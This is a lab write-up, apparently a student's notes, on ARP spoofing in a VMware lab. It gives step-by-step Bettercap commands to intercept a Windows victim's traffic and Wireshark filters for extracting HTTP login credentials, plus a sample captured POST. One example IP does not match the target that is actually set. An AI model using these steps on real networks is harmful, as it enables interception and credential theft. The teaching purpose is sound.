  #linux #bettercap #arpSpoofing
   
##  Objective

- Sniff network traffic using Bettercap on Kali (attacker VM).
- Analyze sniffed data with Wireshark.
- Extract useful information such as login credentials from HTTP traffic.

---

##  Lab Setup

- Kali Linux on VMware (Attacker)
- Windows 10 on VMware (Victim)
- Both VMs on the same NAT or Bridged network
- Internet access (for real-world HTTP testing)
- Wireshark installed on Kali (comes preinstalled)

---

##  Step 1: Configure Your VMware Network

- Go to `VM > Settings > Network Adapter` in both VMs.
- Set both Kali and Windows 10 to:
  - NAT (shares host internet) OR
  - Bridged (both appear as separate devices on LAN)
- Ensure both machines have IPs in the same subnet:

  ```bash
  ip a      # on Kali
  ipconfig  # on Windows
  ```

---

##  Step 2: Enable IP Forwarding on Kali


```bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```
---
##  Step 3: Launch Bettercap and Start ARP Spoofing


Run Bettercap with the correct interface:

```bash
sudo bettercap -iface eth0
```

Inside Bettercap console:

```bash
net.probe on
net.recon on
net.recon.show
```

Find the victim IP (e.g. `192.168.40.130`) and gateway (e.g. `192.168.40.1`), then:

```bash
set arp.spoof.targets 192.168.1.10
set arp.spoof.fullduplex true
set net.sniff.output /home/kali/arpspoof_capture.pcap
net.sniff on
arp.spoof on
```

---

##  Step 4: Generate Test Traffic from Windows 10

1. Open a browser and go to:
	1. testphp.vulnweb.com/login.php
	2. OR http://example.com

2. Use fake credentials to log in:

   ```
   Username: admin
   Password: 1234
   ```

---

## Step 5: Stop Spoofing and Sniffing

In Bettercap:

```bash
arp.spoof off
net.sniff off
```

---
##  Step 6: Open and Analyze the .pcap File in Wireshark

1. Open Wireshark in Kali:
   ```bash
   wireshark /home/kali/arpspoof_capture.pcap
   ```

2. Use filters to find interesting packets:
   - HTTP requests:
     ```
     http.request
     ```
   
   - Filter for POST forms:
     ```
     http.request.method == "POST"
     ```

   - Look for login data:
     ```
     http contains "username" || http contains "password"
     ```

  
3. Inspect HTTP packets:
   - Look at the bottom pane for form data.
   - You’ll find values like `username=admin&password=1234` 

---

##  Example of Leaked Credentials


```
POST /login.php HTTP/1.1
Host: testphp.vulnweb.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
 
username=admin&password=1234
```
---

##  Conclusion
- Performed ARP spoofing in a VMware lab.
- Sniffed victim traffic using Bettercap.
- Analyzed the `.pcap` in Wireshark to extract sensitive data.

  - **Prepared by Puru**

---
